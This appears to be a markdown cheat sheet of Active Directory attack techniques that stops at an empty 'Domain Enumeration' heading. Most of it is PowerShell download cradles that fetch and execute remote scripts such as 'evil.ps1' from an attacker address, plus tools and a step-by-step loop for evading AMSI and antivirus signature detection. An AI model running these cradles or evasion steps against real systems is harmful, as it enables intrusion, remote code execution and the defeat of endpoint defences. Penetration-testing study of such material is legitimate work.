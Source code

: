 # Active Directory Attacks

## Powershell

### Load a Powershell Script

#### Dot Sourcing

```powershell
. C:\AD\Tools\PowerView.ps1
```

#### Import-Module

```powershell
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

#### List commands in a Module

```powershell
Get-Command -Module <modulename>
```
#### Execute Download Cradle

##### IEX

```powershell
iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')

```

##### IE

```powershell
$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response
````

##### PSv3 Onwards - IEX & IWR

```powershell
iex (iwr 'http://192.168.230.1/evil.ps1')
```

##### h

```powershell
$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex $h.responseText
```

##### iwr

```powershell
$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1") $r = $wr.GetResponse() IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```
##### Cradle Crafter

https://github.com/danielbohannon/Invoke-CradleCrafter

##### Bypass Execution Policy

https://www.netspi.com/blog/entryid/238/15-ways-to-bypass-the-powershell-execution-policy

### Bypass Powershell Security

#### Invisi-Shell

https://github.com/OmerYa/Invisi-Shell

##### Invisi-Shell with Admin Privileges

```powershell
RunWithPathAsAdmin.bat
```

##### Invisi-Shell with Non-Admin Privileges

```powershell
RunWithRegistryNonAdmin.bat
```

#### Bypassing AV Signatures

##### AMSITrigger

https://github.com/RythmStick/AMSITrigger

###### AMSITrigger Usage

```powershell
AmsiTrigger_x64.exe -i C:\AD\Tools\Invoke-PowerShellTcp_Detected.ps1
```

##### DefenderCheck

https://github.com/t3hbb/DefenderCheck

###### DefenderCheck Usage

```powershell
DefenderCheck.exe PowerUp.ps1
```

##### Full Obfuscation

https://github.com/danielbohannon/Invoke-Obfuscation

##### ProtectMyTooling

https://github.com/mgeeky/ProtectMyTooling

##### Beating Signature Detection

1. Scan using AMSITrigger
2. Modify the detected code snippet
3. Rescan using AMSITrigger
4. Repeat steps 2 & 3 untill result = "AMSI_RESULT_NOT_DETECTED" or "blank"

____________________________

## Domain Enumeration













